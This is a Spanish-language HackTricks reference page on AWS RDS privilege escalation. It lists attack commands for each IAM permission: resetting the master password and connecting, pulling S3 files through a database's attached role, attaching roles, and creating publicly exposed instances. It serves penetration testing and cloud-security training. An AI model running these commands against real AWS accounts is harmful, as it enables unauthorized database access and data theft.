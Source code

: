 # AWS - RDS Privesc

{% hint style="success" %}
Aprende y practica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## RDS - Relational Database Service

Para más información sobre RDS revisa:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Con ese permiso un atacante puede **modificar la contraseña del usuario maestro**, y acceder a la base de datos:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Necesitarás poder **contactar con la base de datos** (normalmente solo son accesibles desde redes internas).
{% endhint %}

**Impacto Potencial:** Encontrar información sensible dentro de las bases de datos.

### rds-db:connect

Según la [**documentación**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) un usuario con este permiso podría conectarse a la instancia de DB.

### Abusar de permisos de IAM en RDS Role

#### Postgresql (Aurora)

{% hint style="success" %}
Si al ejecutar **`SELECT datname FROM pg_database;`** encuentras una base de datos llamada **`rdsadmin`** sabes que estás dentro de una **base de datos postgresql de AWS**.
{% endhint %}

Primero puedes verificar si esta base de datos ha sido utilizada para acceder a cualquier otro servicio de AWS. Podrías comprobar esto mirando las extensiones instaladas:
```sql
SELECT * FROM pg_extension;
```
Si encuentras algo como **`aws_s3`** puedes asumir que esta base de datos tiene **algún tipo de acceso sobre S3** (hay otras extensiones como **`aws_ml`** y **`aws_lambda`**).

Además, si tienes permisos para ejecutar **`aws rds describe-db-clusters`** puedes ver allí si el **cluster tiene algún IAM Role adjunto** en el campo **`AssociatedRoles`**. Si hay alguno, puedes asumir que la base de datos fue **preparada para acceder a otros servicios de AWS**. Basado en el **nombre del rol** (o si puedes obtener los **permisos** del rol) podrías **adivinar** qué acceso extra tiene la base de datos.

Ahora, para **leer un archivo dentro de un bucket** necesitas conocer la ruta completa. Puedes leerlo con:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Si tuvieras **credenciales AWS sin procesar** también podrías usarlas para acceder a datos S3 con:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **no necesita cambiar ninguna variable del grupo de parámetros** para poder acceder a S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Dentro de un mysql, si ejecutas la consulta **`SELECT User, Host FROM mysql.user;`** y hay un usuario llamado **`rdsadmin`**, puedes asumir que estás dentro de una **AWS RDS mysql db**.
{% endhint %}

Dentro del mysql ejecuta **`show variables;`** y si las variables como **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, tienen valores, puedes asumir que la base de datos está preparada para acceder a datos de S3.

Además, si tienes permisos para ejecutar **`aws rds describe-db-clusters`** puedes verificar si el clúster tiene algún **rol asociado**, lo que generalmente significa acceso a servicios de AWS.

Ahora, para **leer un archivo dentro de un bucket** necesitas conocer la ruta completa. Puedes leerlo con:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Un atacante con los permisos `rds:AddRoleToDBCluster` y `iam:PassRole` puede **agregar un rol especificado a una instancia RDS existente**. Esto podría permitir al atacante **acceder a datos sensibles** o modificar los datos dentro de la instancia.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potential Impact**: Acceso a datos sensibles o modificaciones no autorizadas a los datos en la instancia RDS.\
Tenga en cuenta que algunas bases de datos requieren configuraciones adicionales, como Mysql, que necesita especificar el ARN del rol en los grupos de parámetros también.

### `rds:CreateDBInstance`

Solo con este permiso, un atacante podría crear una **nueva instancia dentro de un clúster** que ya existe y tiene un **rol IAM** adjunto. No podrá cambiar la contraseña del usuario maestro, pero podría exponer la nueva instancia de base de datos a internet:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Un atacante con los permisos `rds:CreateDBInstance` y `iam:PassRole` puede **crear una nueva instancia RDS con un rol especificado adjunto**. El atacante puede entonces potencialmente **acceder a datos sensibles** o modificar los datos dentro de la instancia.

{% hint style="warning" %}
Algunos requisitos del perfil/rol de instancia para adjuntar (de [**aquí**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* El perfil debe existir en tu cuenta.
* El perfil debe tener un rol IAM que Amazon EC2 tenga permisos para asumir.
* El nombre del perfil de instancia y el nombre del rol IAM asociado deben comenzar con el prefijo `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Impacto Potencial**: Acceso a datos sensibles o modificaciones no autorizadas a los datos en la instancia RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Un atacante con los permisos `rds:AddRoleToDBInstance` y `iam:PassRole` puede **agregar un rol especificado a una instancia RDS existente**. Esto podría permitir al atacante **acceder a datos sensibles** o modificar los datos dentro de la instancia.

{% hint style="warning" %}
La instancia DB debe estar fuera de un clúster para esto
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Impacto Potencial**: Acceso a datos sensibles o modificaciones no autorizadas a los datos en la instancia RDS.

{% hint style="success" %}
Aprende y practica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
